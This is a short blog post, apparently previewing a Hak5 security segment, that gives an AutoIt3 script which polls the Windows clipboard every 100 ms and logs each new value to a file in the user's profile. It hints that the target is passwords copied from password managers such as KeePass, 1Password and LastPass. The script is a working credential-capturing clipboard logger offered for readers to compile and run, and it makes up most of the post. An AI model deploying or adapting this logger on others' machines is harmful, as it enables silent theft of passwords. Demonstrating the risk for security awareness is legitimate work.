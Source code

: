 = Hak5 Segment Sneak Peak
:hp-tags: hak5, releases, clipboard, autoit

Since it's Christmas and all, I thought I'd post the code snippet from my Hak5 segment a bit early:

```
#include <Clipboard.au3>
#include <File.au3>
$oldclip = ""
While 1
    $clip = _ClipBoard_GetData()
    If $clip <> "0" Then
        If $clip <> $oldclip Then
            _FileWriteLog(@UserProfileDir & "clip.log", $clip)
            $oldclip = $clip
        EndIf
    EndIf
    Sleep(100)
WEnd
```    

It's pretty straight forward, and I welcome everyone to install AutoIt3 and compile/run the above script to see what it does (although most of you I'm sure can figure it out just by reading it).

(Think KeePass, 1Password, LastPass...)
